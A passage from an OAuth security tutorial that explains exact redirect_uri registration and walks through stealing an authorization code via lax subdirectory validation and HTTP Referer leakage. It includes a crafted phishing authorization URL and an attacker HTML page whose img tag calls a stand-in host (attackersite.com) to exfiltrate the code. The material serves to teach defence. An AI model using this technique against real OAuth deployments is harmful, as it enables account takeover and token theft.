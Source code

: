 **It is extremely important to pay particular attention when choosing the registered `redirect_uri` when the new OAuth client is created at the authorization server, specifically the `redirect_uri` must be as specific as it can be**. For example, if your OAuth client’s callback is

`https://yourouauthclient.com/oauth/oauthprovider/callback`

then ***DO*** register the entire URL

`https://yourouauthclient.com/oauth/oauthprovider/callback`

and ***NOT*** only the domain

`https://yourouauthclient.com/`

and ***NOT*** only part of the path

`https://yourouauthclient.com/oauth`

**If you’re not careful with `redirect_uri` registration requirements, token hijacking attacks become significantly easier than you might think**. Even big players with professional security audits have done it wrong.

**The main reason behind this is that sometimes authorization servers use different `redirect_uri` validation policies**. As we’ll see in chapter 9, the *only* reliably safe validation method the authorization server should adopt is *exact matching*. All the other potential solutions, based on regular expressions or allowing subdirectories of the registered `redirect_uri`, are [suboptimal](https://dictionary.cambridge.org/us/dictionary/english/suboptimal) and sometimes even dangerous.

---

### Stealing the authorization code through the referrer

**The first attack described targets the authorization code grant type and is based on information [leakage](https://dictionary.cambridge.org/us/dictionary/english/leakage) through the HTTP referrer**. **At the end of it, the attacker manages to [hijack](https://dictionary.cambridge.org/us/dictionary/english/hijack) the resource owner’s authorization code**. To understand this attack, it’s necessary to know what a referrer is and when it’s used. The HTTP referrer (misspelled as “referer” in the spec) is an HTTP header field that browsers (and HTTP clients in general) attach when surfing from one page to another. In this way, the new web page can see where the request came from, such as an incoming link from a remote site.

**Let’s assume you just registered an OAuth client to one OAuth provider that has an authorization server that uses the allowing subdirectory validation strategy for `redirect_uri`**.

Your OAuth callback endpoint is

`https://yourouauthclient.com/oauth/oauthprovider/callback`

but you registered as

`https://yourouauthclient.com/`

An [excerpt](https://dictionary.cambridge.org/us/dictionary/english/excerpt) of the request originated by your OAuth client while performing the OAuth integration might look like

`https://oauthprovider.com/authorize?response_type=code&client_id=CLIENT_ID&sc ope=SCOPES&state=STATE&redirect_uri=https://yourouauthclient.com/`

This particular OAuth provider adopts the allowing subdirectory validation strategy for `redirect_uri`, and therefore validates only the start of the URI and considers the request as valid if everything else is appended after the registered `redirect_uri`. Hence the registered `redirect_uri` is perfectly valid under a functional point of view, and things are good so far.

**The attacker also needs to be able to create a page on the target site underneath the registered redirect URI**, for example:

`https://yourouauthclient.com/usergeneratedcontent/attackerpage.html`

From here, it’s enough for the attacker to craft a special URI of this form:

`https://oauthprovider.com/authorize?response_type=code&client_id=CLIENT_ID &scope=SCOPES&state=STATE&redirect_uri=https://yourouauthclient.com/usergeneratedcontent/attackerpage.html`

and make the victim click on it, through any number of [phishing](https://dictionary.cambridge.org/us/dictionary/english/phishing) techniques.

**Note that the crafted URI contains a `redirect_uri` pointing to the attacker’s page, which is a subdirectory of the valid registered redirect URI for the client**. The attacker was then able to change the flow to something like what is shown in figure 7.3:framed_picture:.

Since you registered `https://yourouauthclient.com` as `redirect_uri` and the OAuth provider adopts an *allowing subdirectory* validation strategy, `https://yourouauthclient.com/usergeneratedcontent/attackerpage.html` is a perfectly valid `redirect_uri` for your client.

Remember some things that we have already learned:

* Often, resource owners need to authorize an OAuth client only once (at the first occurrence; see Trust On First Use (TOFU) in chapter 1). This means that all the subsequent calls will skip the manual consent screen as long as the server believes the request is from the same client and for the same access rights.
* People tend to trust companies that have proven records on security, so there is a good chance that this doesn’t switch the “anti-phishing alarm” on for the user.

That said, now that this is enough to “convince” the victim to click the crafted link and go through the authorization endpoint, the victim then will end up with something like

`https://yourouauthclient.com/usergeneratedcontent/attackerpage.html?code=e8e0dc1c-2258-6cca-72f3-7dbe0ca97a0b`

**Note the code request parameter ends up being attached in the URI of the malicious post**. You might be thinking that the attacker would need to have access to server-side processing in order to extract the code from that URI, functionality generally not available to user-generated content pages. Or perhaps the attacker would require the ability to inject arbitrary JavaScript into the page, which is often filtered out from user-generated content. However, let’s have a closer look at the code of `attackerpage.html`:

```html
<html>
    <h1>Authorization in progress </h1>
    <img src="https://attackersite.com/">
</html>
```

This simple page could look completely normal to a resource owner. In fact, since it doesn’t even have any JavaScript or other functional code, it could even be embedded into another page. **But in the background, the victim’s browser will load the embedded `img` tag for a resource at the attacker’s server**. **In that call, the HTTP Referer header will leak the authorization code (figure 7.4:framed_picture:)**.

Extracting the authorization code from the `Referer` is simple for the attacker because it’s delivered to him with the HTTP request for the embedded `img` tag in the attacker’s page.

---

### ~~Stealing the token through an open redirector~~

